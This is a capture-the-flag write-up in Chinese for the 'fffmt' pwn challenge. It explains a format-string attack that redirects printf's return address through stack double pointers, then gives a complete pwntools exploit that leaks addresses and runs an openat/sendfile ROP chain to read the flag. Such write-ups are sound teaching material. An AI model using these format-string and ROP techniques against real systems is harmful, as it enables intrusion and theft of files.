




# fffmt

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.15|

## seccomp rules



## 解题思路

任意输入一个格式化字符串到 bss 上，然后执行，但是执行完后将直接退出，
无法写当前函数的返回地址。题目还给了当前栈地址的后两个字节。另给了 2
个二级指针，方便我们调整要写的目标。

首先，我们需要确保能继续执行更多 `printf` 语句，因此需要尝试把 `printf`
函数的返回地址修改成能回溯的地址，例如回到读取之前。注意到 `register_guest`
函数的大小不超过 256 字节，因此我们只需要修改最后一个字节就够了。



从题目规划的栈布局中不难得知当前 `rsp` 所在位置是参数 6，所以先控制参数
10，把参数 10 指向的参数 8 改成指向 `rsp - 8`，即 `printf` 函数的返回地址，
再在同一句中控制参数 8，把返回地址修改回读取之前，就能顺利进行下一次读取了。
还可以顺带泄露一些信息，方便后面做题。由于 `printf` 函数本质上只是
`vfprintf_internal` 函数的封装，实际的指针读写均在内部函数中完成，修改
`printf` 函数的返回地址是很合理的。

> [!IMPORTANT]
> `printf` 函数在执行语句时，一旦发现位置参数，如 `%10$p` 这种，就会跳转到
> `printf_positional` 函数，而这个函数并不是线性扫描参数列表并 eval 的，
> 而是会找到所有格式化符并立刻固定所有参数，然后才对每个参数 eval。
> 对这道题来说，由于需要**先**控制二级指针，**才能**控制返回地址，
> **因此无法通过两个位置参数来按顺序先后写入两个指针**，
> 二级指针只能由非位置参数控制，需要多个 `%c` 铺过去。这也意味着如果
> `rsp - 8` 最后一字节大于欲跳转回去的地址最后一字节的话，就无法完成串行布置，
> 从而无法完成利用。我的脚本中就显式排除了这种情况。
>
> 

接下去就是重复修改 printf 的返回地址，跳转回读取输入的地方。这个过程中可以修改栈上的数据，
稍后做 ROP。我的思路是现在返回地址后面铺一个 `gets(rsp)`，
这样就可以在再次读入的时候写入大量数据，同时保证需要写的数据相对比较少。
由于我们需要一个二级指针来修改返回值，一个二级指针来修改栈上数据，因此指针碰不得，
需要用 `add rsp, 0x28; ret` 来跳过。



改完以后的栈布局就像上面这样。最后在 `gets` 函数中输入完整 ROP chain
就可以读取 flag 了。

## EXPLOIT

```python
from pwn import *
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './fffmt'
context.arch = 'amd64'
ARGS = { 'gdb_args': [
    '-iex', 'set debug-file-directory /libraries/2.35-0ubuntu3.15_amd64/.debug',
    '-iex', 'set directories /usr/src/debug/glibc-2.35'],
}

def payload(lo: int):
    global t
    _sleep = lambda : sleep(0.25)
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t, 'b *register_guest+243\nc', **ARGS)
            _sleep = pause
    else:
        t = remote('10.1.100.127', 9999)
    elf = ELF(EXE)
    libc = elf.libc

    # ticket = rsp + 8
    # printf ret = rsp - 8
    t.recvuntil(b'ticket:')
    rsp = int(t.recvline(), 16) - 8
    info(f'Got low-16-bit rsp: {rsp:#x}')
    # %9 -> %7 -> %12
    # %10 -> %8 -> %13

    # Step 1: reset printf return addr; leak information
    hh_ret = (rsp - 8) & 0xff
    hh_write = 0x8c
    if rsp & 0xff == 0 or hh_ret > hh_write:
        warn('Insufficient stack conditions')
        t.close()
        return 1

    expstr = f'%{hh_ret - 7}c{"%c" * 7}%hhn' \
             f'%{hh_write - hh_ret}c%7$hhn'
    t.sendafter(b'name: ', f'{expstr};;;;%10$p\n%21$p\n%45$p\n'.encode())

    t.recvuntil(b';;;;')
    rsp = int(t.recvline(), 16) - 0x10
    success(f'Leak rsp: {rsp:#x}')
    pie_base = int(t.recvline(), 16) - 97 - elf.symbols['main']
    success(GOLD_TEXT(f'Leak pie_base: {pie_base:#x}'))
    elf.address = pie_base
    libc_base = int(t.recvline(), 16) - 128 - libc.symbols['__libc_start_main']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # Step 2: reset printf return addr; write targets
    # call gets to reread buffer on stack
    gadgets = ROP(libc)
    targets = {
        0: libc_base + 0x45f25, # add rsp, 0x28; ret
        0x30: gadgets.rdi.address,
        0x38: rsp + 0x48,
        0x40: libc.symbols['gets'],
    }
    cnt = iter(range(1, 13))
    for offset, word in targets.items():
        word_loc = (rsp + offset) & 0xff
        for hh_loc in range(word_loc, word_loc + 6, 2):
            h_word = (word >> ((hh_loc - word_loc) * 8)) & 0xffff
            if h_word == 0:
                next(cnt)
                continue
            if hh_loc > hh_write:
                expstr = f'%{hh_write}c%7$hhn%{hh_loc - hh_write}c%10$hhn'
            else:
                expstr = f'%{hh_loc}c%10$hhn%{hh_write - hh_loc}c%7$hhn'
            t.sendafter(b'name: ', expstr.encode())

            if h_word > hh_write:
                expstr = f'%{hh_write}c%7$hhn%{h_word - hh_write}c%8$hn'
            else:
                expstr = f'%{h_word}c%8$hn%{hh_write - h_word}c%7$hhn'
            t.sendafter(b'name: ', expstr.encode())
            progress = f'[{next(cnt):2d}/12]'
            info(f'{progress} {h_word:#x} => [{rsp + hh_loc - word_loc:#x}]')

    # Step 3: directly return on printf return to execute ROP
    h_write = (pie_base + 0x167d) & 0xffff # ret
    t.sendafter(b'name: ', f'%{h_write}c%7$hn'.encode())

    # Step 4: write real ROP chain
    info('Should be executing gets')
    _sleep()
    t.sendline(flat(
        # starts at rsp + 0x48
        # openat(AT_FDCWD, "flag", 0)
        gadgets.rdi.address,
        -100,
        libc_base + 0x2a527, # add rsp, 8; ret
        b'flag'.ljust(8, b'\0'),
        gadgets.rsi.address,
        rsp + 0x60,
        gadgets.rdx.address,
        0, 0,
        libc.symbols['openat'],
        # sendfile(1, 3, NULL, 0x50)
        gadgets.rdi.address,
        1,
        gadgets.rsi.address,
        3,
        gadgets.rdx.address,
        0, 0,
        gadgets.rcx.address,
        0x50,
        libc.symbols['sendfile'],
        # _exit(0)
        gadgets.rdi.address,
        0,
        libc.symbols['_exit'],
    ))

    t.recvuntil(b'DASCTF{')
    flag = 'DASCTF{' + t.recvuntil(b'}').decode()
    success(f'Flag is: {flag}')

    t.close()
```
